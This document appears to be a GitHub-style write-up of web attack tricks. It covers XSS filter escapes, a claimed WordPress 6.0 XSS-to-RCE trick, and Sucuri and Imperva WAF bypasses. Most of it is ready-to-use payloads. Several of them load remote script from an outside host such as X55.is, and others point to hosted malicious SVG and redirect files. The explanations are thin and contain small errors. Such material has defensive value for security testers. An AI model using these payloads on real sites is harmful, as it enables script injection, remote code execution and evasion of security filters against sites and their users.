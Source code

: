 <h1>Brute Logic Tricks: Advanced Techniques in Web Security Exploitation</h1><br />
The following write-up highlights advanced web exploitation techniques focusing on XSS (Cross-Site Scripting) vulnerabilities, WAF (Web Application Firewall) bypasses, and SSRF (Server-Side Request Forgery) scenarios. These methods are tailored for skilled penetration testers and security researchers, offering a deeper understanding of how to trick filters and evade detection in web applications.
<br />
<h3>1. Escaping Filters Using Byte Bundles</h3>
<b>Concept:</b> To bypass filters that escape specific characters such as single quotes (') when performing web attacks, particularly XSS, one can leverage bytes in the range of %A1 to %FE. These byte ranges can be combined with a single quote to outsmart the filter mechanism.
<br />
<b>Explanation:</b> In web security, many systems sanitize or escape certain characters like %27 (which is the ASCII encoding for ') to prevent malicious injections. However, some filtering mechanisms do not account for all possible byte combinations. By using a byte from %A1 to %FE, you can evade certain character escape sequences and trick the filter into allowing the injection. This is particularly useful when performing brute-force logic attacks or exploring other injection techniques.
<br />
<h3>2. WP 6.0 XSS to RCE Proof of Concept (PoC)</h3>
<b>Concept:</b> In WordPress 6.0, a known exploit allows a user to escalate an XSS (Cross-Site Scripting) vulnerability to RCE (Remote Code Execution). The method involves creating a file (brute.txt) in the /wp-content/plugins folder.

Example:

<!--import('//X55.is/wp')-->
Requirements:

An admin user must be logged in with default write permissions.
The "Hello Dolly" plugin needs to be activated (or left deactivated as it's a default plugin in WordPress).
Explanation: XSS is a client-side code injection attack, but in this case, it can escalate into a server-side RCE if the admin user is logged in. The trick lies in leveraging the default permissions in WordPress installations to inject a malicious file. This kind of exploitation showcases the danger of poorly protected administrative interfaces in web applications.

3. Breaking Out of String Values with Quotes
Concept: To escape from any string value where user input is embedded, an injection of single or double quotes is essential unless there are two injection points.

Example:
XSS: /alert(1)//\
Explanation: When user inputs are inserted into strings without proper sanitization, attackers can use single or double quotes to close the string and execute arbitrary code. However, if you have two injection points (such as opening and closing quotes around your payload), breaking out of a single point might not be necessary. The goal here is to manipulate the syntax of the code by closing strings prematurely, enabling the injection of additional malicious code.

4. Anchors as XSS Vectors
Concept: HTML <a> tags (anchors) are powerful XSS vectors. By exploiting their attributes, one can trigger XSS payloads automatically.

Example 1:
<a href=//X55.is autofocus onfocus=import(href)>
Explanation: Here, the combination of the autofocus and onfocus attributes is used to trigger the import() function when the link is clicked or the element receives focus. This is an advanced method for exploiting XSS, taking advantage of HTML5 attributes. The anchor tag makes it especially dangerous since it is a common element on web pages and can be used to load external scripts without the need for parentheses.

5. Misplacing Payloads and the ">" Symbol
Concept: If a payload and the ">" symbol are misplaced in HTML code, moving elements out of their usual place can still allow the execution of malicious code.

Example:
<Img Src="//X55.is/> "OnError=import(src)//
Explanation: In this example, the payload bypasses filters by misplacing the > symbol. This is a clever trick that can allow a malicious script to run even if the filter expects the payload to be in a specific position. The OnError event is used to trigger the payload when the image fails to load, effectively executing the malicious code.

6. Securi WAF Bypass
Concept: Securi WAF (Web Application Firewall) can be bypassed using a crafted HTML form, as shown below.

Example:

data:text/html,<form action=https://brutelogic.com.br/xss-waf.php method=post><input type=hidden name=a value="<K Contenteditable Autofocus OnFocusIn= [1].map(alert)>"><input type=submit value=XSS></form>
Explanation: This example uses a hidden input field with a crafted payload to bypass the Securi WAF. The Contenteditable attribute allows for user interaction, while Autofocus and OnFocusIn trigger the attack when the form is submitted. Web Application Firewalls typically inspect requests for known patterns, but this creative form submission method can evade such detection mechanisms.

7. Impera WAF Bypass
Concept: By crafting a vector inside an SVG tag, it’s possible to bypass the Impera WAF.

Example:

<svg><set onbegin=d=document,b='`',d['loca'+'tion']='javascript&colon;aler'+'t'+b+domain+b>
Explanation: Here, the vector uses an SVG element with a set attribute that starts executing JavaScript code when the SVG is rendered. The code concatenates parts of the location object and JavaScript's alert() function to trigger an alert. This bypasses the Impera WAF, which likely doesn’t properly inspect or decode these complex constructs inside SVG files.

8. XSS Vulnerability from SSRF or SQLi Scenarios
Concept: Cross-Site Scripting (XSS) can emerge from SSRF (Server-Side Request Forgery) or SQL injection scenarios if improperly handled.

SSRF (curl-based) Example:

?url=https://blablablabla-site.com/poc.svg
SSRF (PHP file_get_contents) Example:

plaintext
Copy code
?url=data:,<svg/onload=alert(1)>
SQLi (error-based) Example:

?id='<svg/onload=alert(1)>
Explanation: In these cases, XSS occurs because input parameters are not sanitized, allowing attackers to inject malicious scripts into server responses. SSRF exploits can be leveraged by providing URLs that return SVG files containing scripts, while SQLi can inject scripts directly into database queries, resulting in the execution of malicious code when the error message or query result is rendered.

9. Brute SVG Collection
Brute Logic offers a collection of SVG files, each serving different purposes in exploiting web vulnerabilities.

XSS (no image)

URL: https://brutelogic.com.br/poc.svg
XSS (valid image)

URL: https://brutelogic.com.br/brute.svg
Redirect (default)

URL: https://brutelogic.com.br/redir.svg
Redirect (custom)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is
Redirect (custom + warning)

URL: https://brutelogic.com.br/redir.svg?url=//X55.is&w=1
Explanation: This collection provides pre-built SVG files that trigger XSS or redirect behavior when accessed. The SVG format is commonly used for image rendering, but attackers can insert scripts into these files, making them a vector for XSS attacks. The redirect files can be customized to send users to any malicious site, with optional warning messages to obscure the true intent of the redirect.

Conclusion
The above techniques represent advanced strategies used by security researchers to test, bypass, and exploit web vulnerabilities. These methods emphasize the need for rigorous input validation, secure configuration, and proper use of web application firewalls to protect against common attack vectors like XSS, SSRF, and SQLi. As web security continues to evolve, so do the methods used by attackers, making it crucial to stay informed about these cutting-edge techniques.

